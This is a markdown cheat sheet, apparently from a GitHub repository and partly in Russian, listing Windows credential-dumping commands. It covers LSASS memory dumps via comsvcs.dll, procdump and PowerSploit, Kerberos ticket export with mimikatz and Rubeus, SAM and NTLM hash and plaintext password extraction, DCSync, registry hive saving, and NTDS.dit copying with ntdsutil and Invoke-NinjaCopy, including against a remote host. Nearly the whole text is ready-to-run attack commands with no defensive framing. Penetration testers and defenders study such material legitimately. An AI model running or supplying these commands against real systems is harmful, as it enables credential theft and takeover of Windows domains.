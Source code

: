 ## Извлечение Kerberos-tickest через дамп виртуальной памяти:
**Три способа дампа памяти:**  
1) taskmgr.exe → ПКМ по lsass.exe → дамп памяти;  
2) rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full  
3) procdump.exe -ma lsass.exe /accepteula.  
  
Если дамп удалось создать, то билеты можно безопасно извлечь уже на своей стороне:  
mimikatz.exe -> sekurlsa::Minidump lsass.dmp -> sekurlsa::tickets /export  
  
## Извлечение Kerberos-tickest (Rubeus):  
**Список доступных тикетов**: Rubeus.exe triage  
**Извлекаем TGT пользователя**: Rubeus.exe dump /luid:0xfffff /service:krbtgt /nowrap  
**Aditional information**: Tickets for the service name krbtgt are Ticket Granting Tickets (TGTs) and others are Ticket Granting Service Tickets (TGSs).  

## Извлечение хешей SAM (нужны учетные данные пользователя):  
secretsdump.py [domain]/[username]:[password]@[TARGET IP]  

## Извлечение хешей SAM (mimikatz):  
\mimikatz.exe token::elevate lsadump::sam exit  

## Извлечение NTLM/plaintext passwords (mimikatz):  
\mimikatz.exe token::elevate sekurlsa::logonpasswords exit  

## Извлечение Kerberos Encryption Keys (mimikatz): extract aes256_hmac value  
\mimikatz.exe token::elevate sekurlsa::ekeys exit  

## Domain cached credentials:  
Позволяет исользовать учетные данные домена, если нет связи с DC.   
\mimikatz.exe token::elevate lsadump::cache exit  

## DCSync (mimikatz):  
\mimikatz.exe token::elevate lsadump::dcsync exit  

## Powershell mimikatz:  
1) Invoke-Mimikatz -DumpCreds  
2) Invoke-Mimikatz -DumpCreds -ComputerName@("comp1","comp2")  

## DCSync with Kiwi:  
load kiwi  
dcsync_ntlm username  

## Manualy dump registry with Reg:
reg.exe save hklm\sam c:\temp\sam.save -> reg.exe save hklm\security c:\temp\security.save -> reg.exe save hklm\system c:\temp\system.save

**Crack dumped registry data**:  
1. creddump7\pwdump.py system sam  
2. secretsdump.py -system system -sam sam LOCAL  

## Retrieval of NTDS.DIT with ntdsutil:  
ntdsutil "activate instance ntds" ifm "create full C:\temp\ntdsutil" quit quit  

## Dump of LSASS with ProcDump:  
C:\Users\Administrator\Downloads\procdump.exe -accepteula -64 -ma lsass.exe c:\temp\lsass.dmp  

## Dump of LSASS with pd:  
C:\Users\Administrator\Downloads\pd.exe -p 552 > c:\temp\lsass.dump  

## Dump of LSASS with Minidump:  
Import-Module c:\users\administrator\downloads\PowerSploit-master\Exfiltration\Out-Minidump.ps1  
Get-Process lsass | Out-Minidump -DumpFilePath c:\temp  

## Retrieval of NTDS.DIT with NinjaCopy:  
**Local**:  
1) Import-Module C:\Users\Administrator\Downloads\PowerSploit-master\Exfiltration\Invoke-NinjaCopy.ps1  
2) Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "c:\temp\ntds.dit"  

**Remote**:  
1) Import-Module C:\Users\Administrator\Downloads\PowerSploit-master\Exfiltration\Invoke-NinjaCopy.ps1  
2) Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "c:\temp\ntds.dit" -ComputerName "WIN-25U0PFAB511"  

